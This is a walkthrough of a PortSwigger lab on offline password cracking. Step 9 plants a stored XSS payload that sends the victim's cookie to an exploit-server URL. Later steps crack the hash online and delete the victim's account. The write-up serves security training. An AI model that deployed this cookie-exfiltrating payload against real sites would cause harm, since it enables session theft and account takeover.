 ```yaml
---
title: Portswigger writeup - Offline Password Cracking
categories: [writeup,walkthrough,security]
tags: [writeup,walkthrough,portswigger,burp,login,security,password,offline]
---
```


This lab is in the same series than the previous article. The goal here to steal Carlos's "stay-logged-in" cookie to steal and delete his account. 

# **Lab: Offline password cracking**

1. Click “My account button”
    
    ![offline-password-cracking-1.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-1.png)
    
2. Enter Wiener’s credentials, click “stay-logged-in” option and click “Log in”
    
    ![offline-password-cracking- (2).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-2.png)
    
3. In Proxy > HTTP History, click the the GET request “/my-account” and click on the arrow on the “stay-logged-in” cookie
    
    ![offline-password-cracking-3.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-3.png)
    
4. The base64 string is decoded: `username:password`O 
    
    ![offline-password-cracking-4.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-4.png)
    
5. Click “Home”
    
    ![offline-password-cracking-5.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-5.png)
    
6. Click a “View post” button
    
    ![offline-password-cracking-6.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-6.png)
    
7. In another tab, open the Exploit Server
    
    ![offline-password-cracking-7.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-7.png)
    
8. Copy its URL
    
    ![offline-password-cracking-8.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-8.png)
    
9. On the post opened at step 6, bottom page, add the following payload (change the URL for your exploit server), as well as random name, email address and website URL. Then click “Post comment”: `<script>document.location='https://exploit-server-url.com'+document.cookie</script>`
    
    ![offline-password-cracking-9.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-9.png)
    
10. Click “Back to blog”
    
    ![offline-password-cracking-10.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-10.png)
    
11. The blog post will be redirected to a similar page (here on Firefox)
    
    ![offline-password-cracking-11).png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-11.png)
    
12. Go back the the exploit server and click “Access log”
    
    ![offline-password-cracking-12.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-12.png)
    
13. A GET request “/exploitserver” appears in the list, containing a “stay-logged-in” cookie, copy its string
    
    ![offline-password-cracking-13.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-13.png)
    
14. Go to [base64decode.org](http://base64decode.org), paste the string previously copied to decode it and copy the hashed password, after “`carlos:`”
    
    ![offline-password-cracking-14.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-14.png)
    
15. Go to [crackstation.net](http://crackstation.net) and paste the hash to get Carlos’s password
    
    ![offline-password-cracking-15.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-15.png)
    
16. Go back to the lab’s tab and click multiple times on the “Go back” button until you can see the website without being redirected
    
    ![offline-password-cracking-16.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-16.png)
    
17. If needed, click “My account”, according to the point you have reached using the “Go back” button, and click “Log out”
    
    ![offline-password-cracking-17.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-17.png)
    
18. Click “My account” again
    
    ![offline-password-cracking-18.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-18.png)
    
19. Enter “carlos” as a username and the password previously found at step 16 on Crackstation, “onceuponatime”, and click “Log in”
    
    ![offline-password-cracking-19.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-19.png)
    
20. When you are on Carlos’s “My account” page, click “Delete account”
    
    ![offline-password-cracking-20.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-20.png)
    
21. Paste one more time his password as a confirmation and click “Delete account!”
    
    ![offline-password-cracking-21.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-21.png)
    
22. The lab is solved
    
    ![offline-password-cracking-22.png](/assets/images/2022-11-26-offline-password-cracking/offline-password-cracking-22.png)